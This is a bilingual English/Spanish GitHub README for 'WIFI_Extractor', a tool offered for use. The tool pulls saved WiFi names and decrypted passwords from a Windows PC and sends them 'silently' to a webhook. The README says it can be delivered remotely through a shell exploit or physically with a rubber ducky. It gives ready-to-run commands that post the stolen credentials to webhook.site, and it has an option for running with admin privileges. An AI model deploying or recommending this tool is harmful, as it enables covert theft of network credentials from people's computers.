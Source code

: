 # WIFI_Extractor

if you run it with python you might need this requeriments
Si lo ejecutas con python tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used offline, physically (rubber ducky)

Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
Tambien se puede usar offline, físicamente con un pendrive(rubber ducky)


Usage: E_WIFI.exe [OPTIONS]

Options:
  -u, --url TEXT      Webhook/POST URL
  -n, --no-txt        No crea el archivo txt | Doesn't create the txt file
  -v, --version       Imprime la version | Prints the version
  -p, --print-output  Muestra la salida en la terminal | Shows the output in
                      the terminal
  --help              Show this message and exit.
  

Offline

python3 E_WIFIoffline.py

CMD or Powershell E_WIFIoffline.exe | ./E_WIFIoffline.exe (You can also double click it)

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage
python3 E_WIFI.py

CMD or Powershell E_WIFI.exe | ./E_WIFI.exe

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Another Example

python3 E_WIFI.py -u https://webhook.site/yoururl -n -p 
CMD or Powershell E_WIFI.exe | ./E_WIFI.exe -u https://webhook.site/yoururl -n -p

type --help for more detailed info

PD: THE TXT IS CREATED BY DEFAULT -n TURN IT OFF
    EL TXT SE CREA POR DEFECTO -n APAGA LA CREACION

V1.3

Quick Example of the new function (in the following hours I will update a more detailed one)
Ejemplo rapido de la nueva funcion (en las siguientes horas actualizare con unos ejemplos mas detallados)

E_WIFI.exe -p -a -u webhooksite...
![ejemplo nueva funcion](https://user-images.githubusercontent.com/74321905/225491588-1b1c1de4-0fa2-4981-8aa7-317983d13d6a.png)

"-a" will answer automatically with "Y" because it indicates that the current console is with admin privileges at least if you don't put this option you will need to put manually the option
"-a" respondera automaticamente con "Y" porque indica que la consola actual tiene al menos privilegios de administrador, si no pones esta opcion tendras que responder manualmente

You will see that in the webhook it will be sent with the decrypted password
Podras ver en el webhook que sera enviado con la contrasena desencriptada
![ejemplo nueva funcion2](https://user-images.githubusercontent.com/74321905/225492226-b03d05e1-4f79-4f88-b872-04df838bc34d.png)


Also you can use the E_WIFI to extract the keys and then manually use Wdecryptor with a opened system authority cmd
Tambien podras usar E_WIFI para extraer las keys y luego manualmente usar wdecryptor con una cmd abierta con system authority

![ejemplo nueva funcion3](https://user-images.githubusercontent.com/74321905/225493385-921a6a0f-230c-4a2f-a83c-fa020282db92.png)

it will be saved in a "decrypted.txt" file also with the following format "Encrypted Key : Decrypted"
tambien se guardara en un archivo "decrypted.txt" con el siguiente formato "Key Encriptada : Descriptada"
